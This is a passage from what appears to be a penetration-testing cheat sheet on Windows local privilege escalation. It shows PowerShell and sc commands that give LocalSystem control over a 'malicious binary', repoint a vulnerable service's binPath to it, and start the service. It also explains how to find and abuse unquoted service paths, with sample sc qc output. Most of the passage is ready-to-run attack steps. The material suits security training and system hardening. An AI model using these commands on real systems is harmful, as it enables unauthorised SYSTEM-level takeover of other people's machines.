 Change ownership of the malicious binary to LocalSystem:

```
PS > $Acl = Get-ACL $filename
PS > $AccessRule= New-Object System.Security.AccessControl.FileSystemAccessRule("NT AUTHORITY\LocalSystem", "FullControl", "none", "none", "Allow")
PS > $Acl.AddAccessRule($AccessRule)
PS > Set-Acl $filename $Acl
```

Set `binPath` to point to the malicious binary and trigger vulnerable service:

```
PS > cmd /c sc config VulnerableSvc binPath= "pwn.exe" obj= LocalSystem start= demand
PS > cmd /c sc qc VulnerableSvc
PS > cmd /c sc start VulnerableSvc
```



### Unquoted Service Paths

* [https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)

[CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function parses an unquoted `BINARY_PATH_NAME` like follows:

```
C:\Program Files\Vulnerable Service\Vuln Service.exe
  -> C:\Program.exe
  -> C:\Program Files\Vulnerable.exe
  -> C:\Program Files\Vulnerable Service\Vuln.exe
  -> C:\Program Files\Vulnerable Service\Vuln Service.exe
```

It gives an attacker the ability to inject malicious binary into path to be executed with vulnerable service permissions if she has enough privileges to write into one of these directories:

```
PS > Get-Acl -Path "C:\Program Files\Vulnerable Service\" | fl
```

List services and their binary path:

```
PS > wmic service get name, pathname
```

Query `VulnerableSvc`:

```
Cmd > sc qc VulnerableSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnerableSvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Vulnerable Service\Vuln Service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Vulnerable Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
